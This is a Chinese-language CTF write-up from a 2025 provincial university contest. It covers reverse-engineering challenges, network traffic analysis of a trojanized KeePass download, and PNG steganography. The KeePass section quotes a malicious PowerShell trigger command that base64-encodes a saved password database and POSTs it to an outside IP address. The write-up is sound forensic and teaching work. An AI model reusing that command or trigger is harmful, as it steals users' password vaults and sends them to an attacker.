 ```yaml
---
title: 2025年黑龙江省大学生网络安全挑战赛WriteUp
typora-root-url: 2025-heilongjiang-province
date: 2025-09-20 19:41:12
tags:
- re
- reverse
- misc
- 2025
categories: Reverse
---
```


# 2025年黑龙江省大学生网络安全挑战赛WriteUp

## Reverse

### REVERSE-1

![image-20250920103108989](image-20250920103108989.png)

IDA打开，手动设置显示为字符，注意小端序

![image-20250920103146420](image-20250920103146420.png)

### REVERSE-2

![image-20250920103244243](image-20250920103244243.png)

一处花指令阻止IDA函数的识别，处理后反编译如下：

![image-20250920105625450](image-20250920105625450.png)

提取buffer并解密，编写脚本如下：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	unsigned char buffer[] =
	{
	  0x51, 0x7D, 0xE1, 0x4C, 0x43, 0x8A, 0xDE, 0xDC, 0x48, 0x8F, 
	  0x07, 0xE2, 0x1F, 0xC0, 0x42, 0x0D, 0xAE, 0xEE, 0x79, 0x99, 
	  0xDA, 0x53, 0x74, 0x5A, 0xF7, 0x5F, 0x14, 0xF9, 0xBC, 0x01, 
	  0xDA, 0x77, 0x9F, 0xD5, 0xE3, 0x4E, 0x65, 0x02, 0xE9, 0x2A
	};
	srand(0xDEADBEEF);
	for (int i = 0; i < 40; i += 2)
	{
		int num = rand() % 255;
		buffer[i] ^= buffer[i + 1];
		buffer[i + 1] += (buffer[i]) ^ num;
		buffer[i] -= num;
	}
	
	printf("%s\n", buffer);
	return 0;
}
```

运行后得出flag

![image-20250920105612568](image-20250920105612568.png)

## Misc

### KeePass数据泄露-1

要求找到其他用户，分析http流量，发现online-list：

![image-20250920152845890](image-20250920152845890.png)

`JusticeEnforcement-DeepMountains-nullSecurity-zhaowendao`

### KeePass数据泄露-2

要求找到诱导agiao下载的时间，分析流量，梳理出如下对话：

![image-20250920160425223](image-20250920160425223.png)

参考过滤规则：

```plaintext
http &&( _ws.col.info contains "updated" || _ws.col.info contains "message" || (_ws.col.info contains "200" && json.key contains "updated" && json.value.string contains "\\"))
```

### KeePass数据泄露-3

要求找到每次保存密码时，密码还会被另存为到的路径

这里涉及到了对下载到的keepass的分析，wireshark中导出从`124.221.70.199`下载到的文件：

![image-20250920161935152](image-20250920161935152.png)

压缩包内容如下：

![image-20250920162024016](image-20250920162024016.png)

发现可执行文件的修改日期几乎都是2023年，只有两个目录和config文件的修改日期是2024年

打开`KeePass.config.xml`文件，发现了缩进不协调的内容：

![image-20250920162133046](image-20250920162133046.png)

如果在keepass中运行，发现触发器功能，窗口如下：

![image-20250920162231405](image-20250920162231405.png)

描述了上方配置文件中的内容的作用，我们也获取到了该题的flag

`c:\users\administrator\appdata\local\temp\giao.xml`

### KeePass数据泄露-4

在上一题的触发器中，我们发现了如下执行指令：

```powershell
PowerShell.exe -ex bypass -noprofile -c Invoke-WebRequest -uri http://124.221.70.199:8866/giao.raw -Method POST -Body ([System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes('C:\Users\administrator\AppData\Local\Temp\giao.xml')))
```

如上指令，将另存的数据库转为base64上传到了服务器上，在wireshark中导出

![image-20250920162724253](image-20250920162724253.png)

base64解码后，定位到如下处：

![image-20250920162544380](image-20250920162544380.png)

即得知远程服务器的账号密码

### MISC-1

![image-20250920145245579](image-20250920145245579.png)

kafuka压缩包中存在一个加密的图片，经分析非伪加密，开始分析`ciphertext.png`

![image-20250920145332690](image-20250920145332690.png)+

提示IDAT中有一个块出现了CRC校验错误，同时发现这个块的大小与正常严重不符，删除这个块，发现图片仍可正常查看

提取这个块的数据，如下：

![image-20250920145450546](image-20250920145450546.png)

发现文件头部是PNG文件的尾部逆序，处理后如下：

![image-20250920150656760](image-20250920150656760.png)

发现藏了一张图片的对应表，翻译后得到压缩包密码`Kafkaisthebest`，解压图片后得到flag：

![image-20250920150747915](image-20250920150747915.png)

### MISC-2

USB协议分析，待填坑



